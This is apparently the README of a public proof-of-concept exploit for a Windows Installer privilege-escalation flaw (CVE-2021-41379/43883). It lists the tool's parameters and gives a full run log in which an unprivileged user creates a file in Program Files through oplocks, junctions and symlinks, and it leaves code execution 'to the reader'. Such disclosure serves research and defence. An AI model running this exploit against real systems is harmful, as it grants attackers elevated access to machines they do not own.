 # shakeitoff

A smaller, minimized, and cleaner version of [InstallerFileTakeOver](https://github.com/klinix5/InstallerFileTakeOver) aka the zero-day exploit that is a "variation" of CVE-2021-41379 (later assigned [CVE-2021-43883](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-43883)). This version *does not* pop a shell like `InstallerFileTakeOver`. The point of this code was to create a simpler proof of concept that more reliably demonstrates the file creation attack. This proof of concept will create the arbitrary file requested by the user (and copy itself into it to prove writablity). Demonstrating code execution is a trivial excercise left up to the reader.

To understand how the attack works, please see the [AttackerKB write up](https://attackerkb.com/topics/7LstI2clmF/cve-2021-41379/rapid7-analysis).

## Usage

The tool requires three parameters:

```
C:\Users\albinolobster\source\repos\shakeitoff\x64\Release>.\shakeitoff.exe
option "msi_path" is required
Allowed options:
  -h, --help              produce help message
  -m, --msi_path arg      The path to the MSI to install
  -i, --install_path arg  The path to install to
  -p, --target_path arg   The file to create
```

1. -m - the msi to install (full path required). One is provided in this repository (and you should use it since the file paths actually matter).
2. -i - the install path (full path required). This is where the msi is installed / the exploit goes down. The user must specify this beforehand and it *must* be an empty directory. The tool doesn't clean it up because it makes figuring out the bug easier. There also must be a trailing \ because I'm a monster.
3. -p - the file to overwrite/create. Full path required.


The PoC will just copy itself into the target file. 


## Usage Example

```
C:\Users\Public>dir "C:\Program Files\lol"
 Volume in drive C has no label.
 Volume Serial Number is 5E1E-AC13

 Directory of C:\Program Files

File Not Found

C:\Users\Public>.\shakeitoff.exe -m C:\Users\Public\shakeitoff.msi -i C:\Users\Public\lol\ -p "C:\Program Files\lol"
[+] User provided MSI path: C:\Users\Public\shakeitoff.msi
[+] The target path is: C:\Program Files\lol
[+] Create the temp directory structure we'll install into
[+] Grabbing handle to lock C:\Users\Public\lol\shakeitoff\haters.jpg
[+] Grabbing a directory handle of C:\Users\Public\lol\shakeitoff\
[+] Monitor shakeitoff\shakeitoff for an rbf file
[+] MSI install: ACTION=ADMIN REBOOT=ReallySuppress TARGETDIR=C:\Users\Public\lol\ C:\Users\Public\shakeitoff.msi
[+] Grabbing a handle to inner shakeitoff directory
[+] In callback for oplock one
[+] Opening handle to C:\Users\Public\lol\shakeitoff\8da858.rbf
[+] Creating the callback directory at C:\Users\Public\lol\cb_directory
[+] Grab a handle for the callback directry
[+] Creating a junction from C:\Users\Public\lol\cb_directory to \BaseNamedObjects\Restricted
[+] Inside callback two
[+] Release the hater.jpg handle to unlock
[+] Move the rbf file to C:\Users\Public\lol\weird_directory
[+] Move inner shakeitoff to C:\Users\Public\lol\weird_directory
[+] Move junction at C:\Users\Public\lol\cb_directory to C:\Users\Public\lol\shakeitoff
[+] Configuring symlink from \BaseNamedObjects\Restricted\8da858.rbf to \??\C:\Program Files\lol
[+] symlink created!
[+] MsiInstallProductA return value: 1603
[+] Exploit thread joined
[+] Copy into target!

C:\Users\Public>dir "C:\Program Files\lol"
 Volume in drive C has no label.
 Volume Serial Number is 5E1E-AC13

 Directory of C:\Program Files

12/02/2021  02:01 PM           368,640 lol
               1 File(s)        368,640 bytes
               0 Dir(s)  86,015,610,880 bytes free
```

## Credit

* This code is influenced by the original [exploit](https://github.com/klinix5/InstallerFileTakeOver) published by Abdelhamid Naceri (also the original vulnerability discoverer!).
* The `FileOpLock` code is a (slight modified) version pulled out of [angrypolarbearbug2](https://github.com/jackusm/polarbearrepo/tree/f37184a3fc3ffa5ea76035c9fbdee95a39d7b4c3/angrypolarbearbug2)
* Taylor Swift
